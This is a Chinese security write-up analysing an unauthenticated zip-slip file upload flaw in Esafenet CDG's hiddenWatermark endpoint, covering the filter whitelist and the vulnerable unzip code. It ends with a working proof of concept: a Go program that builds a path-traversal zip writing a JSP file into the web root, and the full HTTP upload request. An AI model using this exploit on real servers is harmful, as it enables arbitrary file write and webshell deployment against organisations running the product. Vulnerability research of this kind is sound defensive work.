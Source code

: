 

# 亿赛通 hiddenWatermark 文件上传漏洞分析 - 先知社区

亿赛通 hiddenWatermark 文件上传漏洞分析

- - -

## 路由分析

查看`web.xml`

```bash
<!-- needed for ContextLoaderListener -->
<context-param>
    <param-name>contextConfigLocation</param-name>
    <param-value>/WEB-INF/spring/spring-sip.xml</param-value>
</context-param>

<servlet>
    <servlet-name>springDispatcherServlet</servlet-name>
    <servlet-class>org.springframework.web.servlet.DispatcherServlet</servlet-class>
    <init-param>
        <param-name>contextConfigLocation</param-name>
        <param-value>/WEB-INF/spring/spring-mvc.xml</param-value>
    </init-param>
    <load-on-startup>1</load-on-startup>
</servlet>

<servlet-mapping>
    <servlet-name>springDispatcherServlet</servlet-name>
    <url-pattern>*.do</url-pattern>
</servlet-mapping>
<servlet-mapping>
    <servlet-name>springDispatcherServlet</servlet-name>
    <url-pattern>/</url-pattern>
</servlet-mapping>
```

`DispatcherServlet` 处理和分发 Web 请求，典型的 Spring MVC 配置方式。

看看过滤器

```bash
<!-- 验证 serssion 的过滤器 -->
    <filter>
        <filter-name>SessionValidateFilter</filter-name>
        <filter-class>
            com.esafenet.filter.SessionValidateFilter
        </filter-class>
        <init-param>
            <param-name>excludedLoginUrls</param-name>
            <param-value>/logincontroller,/static/,/images/,/img/,/js/,/css/,/style/,
                /sip-style/,/sip-js/,/index.jsp,/loginExpire.jsp,/app/,/paramExpire.jsp,/druid,/todolistjump.jsp,/3g/,/LinkFilterService
            </param-value>
        </init-param>
        <init-param>
            <param-name>excludedClientUrls</param-name>
            <param-value>/TestConnectService,/GetValidateLoginUserService,
                /GlobalServlet,/secretKey/,/security/,/s/rs/,/FileCountService,/FilesService,/formType,
                /FileAuditService,/GetBoeFlowService,/GetUserSafetyPolicyService,/old/,/GetMacUserSafetyPolicy,/GetLinuxUserSafetyPolicy,/UserLoginOutService1,
                /UninstallApplicationService1,/UpdatePasswordService,/CDGAuthoriseTempletService1,/MailApp,
                /formType1,/AutoSignService1,/clientMessage,/document/,/UpgradeService1,/UpgradeService2,
                /FileLog2Service,/ExamCDGDocService1,/retranAssetsXml,/getAllAuthKey,/ViolationsLogService,
                /DecryptionApp,/software/,/asset/,/deskLog/,/UsbRegStatusAppServlet,/docRenewApp,/EmailDecryptionApp,
                /offlineApp,/outgoingServlet,/OutgoingRestoreApp,/permissionApp,/PrintLimitApp,/SecurityDropApp,
                /warning/,/fileCount/,/PrintAuditService,/outgoing/,/SystemService,/EmailAuditService,
                /GetDeskSafetyPolicyService,/UsbControlServlet,/egmServer/,/syncPolicy/,/secret/,/UserAjax,/OrganiseAjax,
                /GetUsecPolicyService,/OfflineApplicationService1,/OfflineApplicationService2,/client/,/WorkFileServlet,
                /DecryptApplicationService1,/parameter/HookService,/SystemConfig,/UsersService,/workflowE/,/ClientAjax,
                /EmailDecryptFileStatusApp,/getUltraSecKO,/MailMessageLogServices,/dlUltrasec,/checkWindowsPolicyUpdate,/saveKoFile,
                /softwareAsset/,/FileLogsService,/pageConfig,/subSecretQuery,/branchPolicy/,/policyLibNew/,/subsecret/,/rpc/,
                /groupControl/,/subSecretAdd,/exaction/,/subSecretDelete,/syncApi,/patchTask,/patchUpgrade,/log/logReport,/fuseApi,
                /policyLockSend,/wfPasswordConfig/,/estProperties/,/pingandept/,/updateDB/goDbUpdate,/api/estChat/,/hiddenWatermark/,
                /api/syncdata/
            </param-value>
        </init-param>
        ......
    </filter>
    <filter-mapping>
        <filter-name>SessionValidateFilter</filter-name>
        <url-pattern>/*</url-pattern>
    </filter-mapping>
```

这个 filter 会对 `/*` 鉴权，但是在配置中又排除了很多 url。比如`excludedClientUrls` 中的`/hiddenWatermark/` 。

简单分析下`SessionValidateFilter`

[![](assets/1706771809-4314e2c2f2f68c08d8913bddd3b97c52.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129193143-fa39245a-be99-1.png)

将`excludedClientUrls`中的 path 都放进 `this.excludedClientUrls`。

继续看`doFilter`

[![](assets/1706771809-cbd2e055f33ab8cb25b341b218ebd95e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129193201-04f7adda-be9a-1.png)

看到`excludedClientUrls`中的都不需要鉴权，当然不只这个。

来看看具体路由，

指定包扫描的规则

```bash
<context:component-scan  base-package="com.esafenet.ta" use-default-filters="false">
    <context:include-filter type="annotation" expression="org.springframework.stereotype.Controller"/>
</context:component-scan>
```

## 漏洞分析

类`com.esafenet.ta.server.controller.deskManage.HiddenWatermarkController`

[![](assets/1706771809-414fdbf4f23ccb43532cd9bf672b4767.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129193223-12230004-be9a-1.png)

很明显的上传，然后`FileUtil.writeFile` 将内容写进 一个 zip 文件，`CDGUtil.unzipFile` 将其解压。

跟进看看

[![](assets/1706771809-bf0a3accd41e3d17568ecad4b571f62a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129193236-1a248278-be9a-1.png)

与 压缩包内的文件名拼接，可以路径穿越。

回到`uploadFile` ，

```bash
String xmlPath = dirPath + File.separator + uuid + File.separator + "theme" + File.separator + "theme1.xml";
File file = new File(xmlPath);
fis1 = new FileInputStream(file);
```

这里可以构造 `theme1.xml` 按流程走下去。  
但是也可以不构造，然后会抛出异常走 catch

```bash
catch (Exception var32) {
    logger.error(var32.getMessage(), var32);
    map.put("fileId", "null");
    var31 = false;
}
```

## 漏洞利用

制作压缩包

```bash
package main

import (
    "archive/zip"
    "os"
)

func main() {

    zipFilePath := "test1.zip"

    binary := []byte("test1")

    zipFile, err := os.OpenFile(zipFilePath, os.O_WRONLY|os.O_CREATE|os.O_APPEND, 0644)
    if err != nil {
        panic(err)
    }
    defer zipFile.Close()

    zipWriter := zip.NewWriter(zipFile)
    defer zipWriter.Close()

    zipInfo := &zip.FileHeader{
        Name:   "../../../static/111.jsp",
        Method: zip.Deflate,
    }

    writer, err := zipWriter.CreateHeader(zipInfo)
    if err != nil {
        panic(err)
    }

    _, err = writer.Write(binary)
    if err != nil {
        panic(err)
    }
}
```

这里由于写到根目录有鉴权，所以写到`static`等目录。  
也可以写`../../../../../tomcat/webapps/ROOT/`

```bash
POST /CDGServer3/hiddenWatermark/uploadFile HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=------------------------ZJFgyTJOTvpUxHrORpYjkblliLjmziUgFqpcBCZJ
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 183

--------------------------ZJFgyTJOTvpUxHrORpYjkblliLjmziUgFqpcBCZJ
Content-Disposition: form-data; name="doc";filename="1.zip"

{{file(d:\test1.zip)}}
--------------------------ZJFgyTJOTvpUxHrORpYjkblliLjmziUgFqpcBCZJ--
```

[![](assets/1706771809-190d5874792da75ef4a07e403cbced57.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129193308-2cc6a19a-be9a-1.png)

[![](assets/1706771809-cdd6a37a798d20131e11dc48dac84e72.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129193312-2f3d23b8-be9a-1.png)
